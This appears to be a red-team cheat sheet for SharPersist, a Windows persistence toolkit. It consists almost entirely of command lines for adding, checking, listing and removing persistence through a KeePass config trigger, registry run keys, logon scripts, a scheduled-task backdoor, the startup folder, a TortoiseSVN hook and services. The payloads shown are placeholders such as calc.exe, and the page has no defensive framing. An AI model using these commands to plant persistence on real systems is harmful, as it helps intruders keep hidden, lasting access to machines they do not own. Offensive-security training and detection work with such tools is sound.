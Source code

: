 ```yaml
---
description: 'Windows persistence toolkit written in C#'
---
```


# SharpPersist

Windows persistence toolkit written in C\# 

Link:  [https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

## Examples 

### Adding Persistence Triggers \(Add\) 

#### KeePass 

SharPersist -t keepass -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m add 

#### Registry 

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add 

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env 

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add 

#### Scheduled Task Backdoor 

SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add 

#### Startup Folder 

SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add 

#### Tortoise SVN 

SharPersist -t tortoisesvn -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -m add 

#### Windows Service 

SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add 

#### Scheduled Task 

SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 &gt;&gt; c:\123.txt" -n "Some Task" -m add 

SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 &gt;&gt; c:\123.txt" -n "Some Task" -m add -o hourly 

### Removing Persistence Triggers \(Remove\) 

#### KeePass 

SharPersist -t keepass -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m remove 

#### Registry 

SharPersist -t reg -k "hkcurun" -v "Test Stuff" -m remove 

SharPersist -t reg -k "hkcurun" -v "Test Stuff" -m remove -o env 

SharPersist -t reg -k "logonscript" -m remove 

#### Scheduled Task Backdoor 

SharPersist -t schtaskbackdoor -n "Something Cool" -m remove 

#### Startup Folder 

SharPersist -t startupfolder -f "Some File" -m remove 

#### Tortoise SVN 

SharPersist -t tortoisesvn -m remove 

#### Windows Service 

SharPersist -t service -n "Some Service" -m remove 

#### Scheduled Task 

SharPersist -t schtask -n "Some Task" -m remove 

### Perform Dry Run of Persistence Trigger \(Check\) 

#### KeePass 

SharPersist -t keepass -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "C:\Users\username\AppData\Roaming\KeePass\KeePass.config.xml" -m check 

#### Registry 

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m check 

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m check -o env 

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m check 

#### Scheduled Task Backdoor 

SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m check 

#### Startup Folder 

SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m check 

#### Tortoise SVN 

SharPersist -t tortoisesvn -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -m check 

#### Windows Service 

SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m check 

#### Scheduled Task 

SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 &gt;&gt; c:\123.txt" -n "Some Task" -m check 

SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 &gt;&gt; c:\123.txt" -n "Some Task" -m check -o hourly 

### List Persistence Trigger Entries \(List\) 

#### Registry 

SharPersist -t reg -k "hkcurun" -m list 

Scheduled Task Backdoor 

SharPersist -t schtaskbackdoor -m list 

SharPersist -t schtaskbackdoor -m list -n "Some Task" 

SharPersist -t schtaskbackdoor -m list -o logon 

#### Startup Folder 

SharPersist -t startupfolder -m list 

#### Windows Service 

SharPersist -t service -m list 

SharPersist -t service -m list -n "Some Service" 

#### Scheduled Task 

SharPersist -t schtask -m list 

SharPersist -t schtask -m list -n "Some Task" 

SharPersist -t schtask -m list -o logon 

